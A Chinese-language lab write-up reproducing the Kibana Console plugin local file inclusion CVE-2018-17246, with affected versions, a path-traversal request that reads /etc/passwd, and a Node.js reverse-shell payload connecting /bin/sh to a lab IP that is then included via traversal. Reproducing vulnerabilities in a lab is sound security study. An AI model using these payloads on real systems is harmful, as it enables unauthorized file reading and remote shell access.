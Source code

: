# Kibana本地文件包含（CVE-2018-17246）

###### by ADummy

### 0x00利用路线

​			最终漏洞的影响关键在于如何创建shell文件

### 0x01漏洞介绍

​			此漏洞出现在Kibana控制台（Console）插件中，控制台插件是KIbana的基本插件，也就是Kibana必装的插件。当前elastic最新版本为6.5，可以说大部分elk的组件会存在此问题，但是此问题利用难点在于如何创建一个恶意的本地文件

影响版本

```
Kibana <= 5.6.13
Kibana <= 6.4.3
```

### 0x02漏洞复现

```
http://192.168.1.3:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd
```

在kibana的log中可以看到`/etc/passwd`的信息

```
docker-compose logs
```

要利用此漏洞，您需要将JavaScript Webshell上传到运行Kibana的计算机上，然后将其包含在内。

```js
(function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []); var client = new net.Socket(); client.connect(8080, "192.168.1.2", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/; })();
```

```
http://192.168.0.142:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../tmp/shell.js
```

shell没弹回来- - 

![Kibana_本地文件包含_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Kibana_本地文件包含_1.png)

### 0x03参考资料

https://www.jianshu.com/p/417196b69e98







